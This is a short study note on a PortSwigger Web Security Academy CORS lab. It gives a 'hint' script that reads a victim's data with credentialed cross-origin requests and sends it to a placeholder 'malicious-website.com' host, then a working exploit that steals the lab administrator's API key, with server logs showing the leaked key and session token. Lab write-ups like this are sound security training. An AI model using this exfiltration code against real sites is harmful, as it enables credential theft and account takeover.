 # Cross-origin resource sharing (CORS)
https://portswigger.net/web-security/cors

# Same-origin policy (SOP)
https://portswigger.net/web-security/cors/same-origin-policy

# CORS and the Access-Control-Allow-Origin response header
https://portswigger.net/web-security/cors/access-control-allow-origin


hint:
```javascript
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://vulnerable-website.com/sensitive-victim-data',true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
    location='//malicious-website.com/log?key='+this.responseText;
    };
```

# 1. Lab: CORS vulnerability with basic origin reflection
https://portswigger.net/web-security/cors/lab-basic-origin-reflection-attack

To solve the lab, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. The lab is solved when you successfully submit the administrator's API key. 

```javascript
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://0aff005f04afdf0cc0551b5f00ea0046.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
    location='/log?key='+this.responseText;
    };
</script>

```
deliver to Victim:
check server for leaked information via response:
    87.71.215.186   2022-08-12 11:58:41 +0000 "GET /deliver-to-victim HTTP/1.1" 302 "User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0"
    10.0.4.223      2022-08-12 11:58:42 +0000 "GET /exploit/ HTTP/1.1" 200 "User-Agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.5112.79 Safari/537.36"
    10.0.4.223      2022-08-12 11:58:42 +0000 "GET /log?key={%20%20%22username%22:%20%22administrator%22,%20%20%22email%22:%20%22%22,%20%20%22apikey%22:%20%22KAwdvlGps26X0quX8F9TqhqAIJYXRdTv%22,%20%20%22sessions%22:%20[%20%20%20%20%229aPfTKXCEuhuiQ9167ChY3mBZpQsMBys%22%20%20]} HTTP/1.1" 200 "User-Agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.5112.79 Safari/537.36"

